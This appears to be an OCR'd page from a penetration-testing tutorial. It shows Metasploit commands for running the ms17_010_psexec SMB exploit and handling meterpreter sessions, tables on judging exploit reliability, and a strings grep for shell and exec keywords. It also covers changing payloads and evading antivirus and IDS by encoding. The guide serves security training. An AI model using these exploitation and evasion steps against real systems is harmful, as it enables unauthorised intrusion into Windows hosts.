 ``````shell-session
#### Exploitation Process
```bash
# Check if target is vulnerable
msf6 exploit(windows/smb/ms17_010_psexec) > check

# Run the exploit
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
# or
msf6 exploit(windows/smb/ms17_010_psexec) > run

# Background session
meterpreter > background

# List active sessions
msf6 > sessions -l

# Interact with session
msf6 > sessions -i 1
```

## Exploit Evaluation Process

### Vulnerability Assessment

| Assessment Criteria | Evaluation Method | Risk Level |
|-------------------|------------------|------------|
| **Exploit reliability** | Test success rate | Critical factor |
| **Target compatibility** | OS/version matching | Must verify |
| **Proof of concept vs weaponized** | Code analysis | Safety consideration |
| **Dependencies** | Library/tool requirements | Feasibility check |

### Code Analysis

#### Static Analysis
```bash
# File examination
file exploit.py
strings exploit.py | grep -i "shell\|connect\|exec"

# Python syntax check
python -m py_compile exploit.py

# Ruby syntax check
ruby -c exploit.rb
```

#### Dynamic Analysis
```bash
# Safe execution environment
# Use isolated VM/container
# Monitor network activity
# Check file system changes
```

## Exploit Modification and Customization

### Common Modifications

| Modification Type | Purpose | Implementation |
|------------------|---------|----------------|
| **IP/Port changes** | Target specification | Edit connection parameters |
| **Payload adaptation** | Environment matching | Modify shellcode/commands |
| **Evasion techniques** | AV/IDS bypass | Encoding/obfuscation |
| **Stability improvements** | Reliable exploitation | Error handling |
``````